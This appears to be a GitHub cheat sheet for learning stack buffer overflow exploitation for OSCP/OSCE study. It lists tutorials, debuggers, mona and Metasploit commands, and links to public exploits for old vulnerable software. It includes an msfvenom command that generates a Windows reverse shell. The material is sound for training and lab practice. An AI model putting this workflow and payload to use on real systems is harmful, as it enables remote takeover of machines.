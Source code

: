 # Buffer Overflow Cheat Sheet
## Tutorials / Methodologies
* https://github.com/gh0x0st/Buffer_Overflow
* https://infosecsanyam261.gitbook.io/tryharder/buffer-overflow
* https://blog.own.sh/introduction-to-network-protocol-fuzzing-buffer-overflow-exploitation/
* https://veteransec.com/2018/09/10/32-bit-windows-buffer-overflows-made-easy/
* https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/buffer-overflow
* https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/
* https://eazeysec.com/BOF-Method/
* http://www.primalsecurity.net/tutorials/exploit-tutorials/
* http://www.fuzzysecurity.com/tutorials.html
* Jump to shellcode:
  * https://www.abatchy.com/2017/05/jumping-to-shellcode.html
  * https://www.securitysift.com/windows-exploit-development-part-4-locating-shellcode-jumps/

## Common Tips
1. Running Vulnerable-apps, then use netcat to makesure the shell connection, and test the function for buffer storing
```
netcat <target_ip> <port>
```

2. Fuzzing ([Fuzzer.py](https://github.com/rdoix/Buffer-Overflow-Cheat-Sheet/blob/master/Fuzzer.py))

3. Add pattern for crash replication and controlling EIP
```
msf-pattern_create -l $length
msf-pattern_offset -q $EIP
```

  4. Compare the bad chars
```
   !mona bytearray -b "\x00\xyz\xxx"
   !mona compare -f C:\mona\output.bin -a <ESP_badchar_address>
```
After found the bad character we have 2 method, using step 5 or 6

  5. Find address JMP ESP with the true bad chars, *if using this method please SKIP step 6-8, and continue at point 9
  ```
  !mona jmp -r esp -cpb  "\x00\xyz\xxx"
  ```
#
  6. keep the same order of outputs
```
msf-nasm_shell
   nasm > jmp esp
   00000000  FFE4              jmp esp
```

  7. show and select a dll module
```
!mona modules
```  
  8. find address of "jmp esp" (xff xe4)
```
!mona find -s "\xff\xe4" -m "suspectmodule.dll"
```
#
  9. find "pop,pop,ret" for SEH
```
!mona seh -m "$module"
```
  10. generate Windows reverse shell
```
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f c -e x86/shell -b "\x00"
```

## Tools
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/): A powerful new way to write exploits, analyze malware, and reverse engineer binary files ([whitepaper](https://www.sans.org/reading-room/whitepapers/malicious/basic-reverse-engineering-immunity-debugger-36982), [course](https://yaksas-csc.teachable.com/p/immunity-debugger-for-exploit-devs-ycsc-lab-essentials))

* [OllyDbg](http://www.ollydbg.de/): A 32-bit assembler level analysing debugger for Microsoft Windows ([tut]())

* [Windbg](https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows ([tut]())

* [edb](https://github.com/eteran/edb-debugger): A Linux equivalent of the famous Olly debugger on the Windows platform.

* [Boofuzz](https://github.com/jtpereyda/boofuzz): Network Protocol Fuzzing for Humans

* [mona](https://github.com/corelan/mona): A Python script that can be used to automate and speed up specific searches while developing exploits (typically for the Windows platform) ([tut](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/), [cheatsheet](https://www.corelan.be/index.php/2010/01/26/starting-to-write-immunity-debugger-pycommands-my-cheatsheet/))
```
!mona findmsp
!mona modules [ -o ]: (-o: only in the application which is more reliable)
!mona jmp -r esp [ -o ] 
!mona seh       
!mona seh -m -o
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\pcmanftpd2\bytearray.bin -a 0012ED6C
!mona find -s "\xff\xe4" -m "libspp.dll"
!mona findmsp
```
* [WinDBG](http://www.windbg.org/): A kernel-mode and user-mode debugger that is included in Debugging Tools for Windows

## Exploitation for Practice
* PWK 2020
  * - [x] SyncBreeze version 10.0.28 ([exploit](https://www.exploit-db.com/exploits/42928), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/10-real-world-scenarios-part2))
  * - [x] PWK Crossfire-server 1.9.0 ([exploit](https://www.exploit-db.com/exploits/1582))
  * - [x] PWK Extra Mile Exercises: VulnApp1.exe, VulnApp2.exe, and VulnApp3.exe
  * - [x] PWK Fixing Exploits Sync Breeze Enterprise 10.0.28
* Vunlserver ([github](https://github.com/stephenbradshaw/vulnserver), [tut](http://www.thegreycorner.com/p/vulnserver.html?m=1), [exploited functions](https://limbenjamin.com/articles/vulnserver-order-of-difficulty.html), [TRUN exploit](https://fullpwnops.com/vulnserver-trun/))
* Easy File Sharing Web Server 7.2 ([exploit](http://strongcourage.github.io/2020/04/19/bof.html), [code](https://github.com/Hamza-Megahed/pentest-with-shellcode/tree/master/11-real-world-scenarios-part3), [tut](https://h0mbre.github.io/Easy_File_Sharing_Web_Server/))
* Seattle Lab Mail (SLmail) 5.5 ([python exploit](https://www.exploit-db.com/exploits/638), [C exploit](https://www.exploit-db.com/exploits/646))
* Freefloat FTP Server 1.0 ([exploit](https://www.exploit-db.com/exploits/17546))
* MiniShare 1.4.1 ([exploit](https://www.exploit-db.com/exploits/636))
* Savant Web Server 3.1 ([exploit](https://www.exploit-db.com/exploits/10434))
* WarFTP 1.65 ([exploit](https://www.exploit-db.com/exploits/3570))
* BigAnt Server 2.52 ([exploit](https://www.exploit-db.com/exploits/10973), [tut](http://www.primalsecurity.net/0x3-exploit-tutorial-buffer-overflow-seh-bypass/))
* ASX to MP3 Converter 1.82.50 ([exploit](https://www.exploit-db.com/exploits/38457), [tut](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/))
* Easy RM to MP3 Converter ([exploit](https://www.exploit-db.com/exploits/9186))
* Zip-n-Go 4.9 ([exploit](https://www.exploit-db.com/exploits/44828), [FileFuzz](http://www.fuzzing.org/wp-content/FileFuzz.zip))
* IDSECCONF 2013 myftpd challenge ([tut-xp](https://buffered.io/posts/idsecconf-2013-myftpd-challenge/), [tut-win7](https://buffered.io/posts/myftpd-exploit-on-windows-7/))
* QuickZip 4.x ([exploit](https://www.exploit-db.com/exploits/11656), [tut1](https://www.offensive-security.com/vulndev/quickzip-stack-bof-0day-a-box-of-chocolates/), [tut2](https://blog.knapsy.com/blog/2017/05/01/quickzip-4-dot-60-win7-x64-seh-overflow-egghunter-with-custom-encoder/))
* Easy Chat Server 3.1 ([tut](https://www.onsecurity.co.uk/blog/buffer-overflow-easy-chat-server-31))
* dostackbufferoverflowgood ([exploit & tut](https://github.com/justinsteven/dostackbufferoverflowgood))
* Vulnhub machines: [Brainpan series](https://www.vulnhub.com/series/brainpan,32/), [SmashTheTux: 1.0.1](https://www.vulnhub.com/entry/smashthetux-101,138/), [Cyberry: 1](https://www.vulnhub.com/entry/cyberry-1,217/), [Pinky’s Palace series](https://www.vulnhub.com/series/pinkys-palace,151/), [Lord Of The Root: 1.0.1](https://www.vulnhub.com/series/lord-of-the-root,67/)

### Structured Exception Handler (SEH)
* Konica Minolta FTP Utility 1.00 ([exploit](https://www.exploit-db.com/exploits/39215), [tut](https://www.youtube.com/watch?v=v0C4M0UpDbc))
* Millenium MP3 Studio 2.0 ([exploit](https://www.exploit-db.com/exploits/10240), [tut](https://fullpwnops.com/local-seh-overflow/))
* IntraSRV 1.0 ([exploit](https://cxsecurity.com/issue/WLB-2019100164), [tut](https://fullpwnops.com/CVE-2019-17181-intrasrv-writeup/))
* File Sharing Wizard 1.5.0 ([exploit](https://www.exploit-db.com/exploits/47412), [tut](https://fullpwnops.com/CVE-2019-16724-Remote-Unauthenticated-SEH-overflow/))

### More Targets
* https://github.com/freddiebarrsmith/Buffer-Overflow-Exploit-Development-Practice
* https://www.vortex.id.au/2017/05/pwkoscp-stack-buffer-overflow-practice/
* https://exploit.education/
* https://overthewire.org/wargames/narnia/
* Useful links: https://github.com/security-prince/PWK-OSCP-Preparation-Roadmap/blob/master/BOF

### Advanced Topics for OSCE
* Windows drivers: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
* https://github.com/dhn/OSCE
* https://purpl3f0xsec.tech/2019/06/18/osce-prep-1.html
* Windows Exploitation Pathway
* https://github.com/epi052/OSCE-exam-practice

## Books
* Hacking - The Art of Exploitation
* The Shellcoder’s Handbook: Discovering and Exploiting Security Holes
* Buffer Overflow Attacks: Detect, Exploit, Prevent
* Writing Security Tools and Exploits
* Penetration Testing with Shellcode: Detect, exploit, and secure network-level and operating system vulnerabilities
```
# From Kali, run first
~/OSCP/windows_buffer_overflows$ nc -l -p 1234 > VulnApp1.exe
# From Windows
C:\Tools\windows_buffer_overflows> nc -w 3 192.168.119.223 1234 < VulnApp1.exe

# Windows 10: Bridged Adapter network
# Kali: NAT network
```

* Download windows 10 x86 ISO: https://www.microsoft.com/en-gb/software-download/windows10ISO

# 
_Reffrence http://strongcourage.github.io/2020/04/19/bof.html_
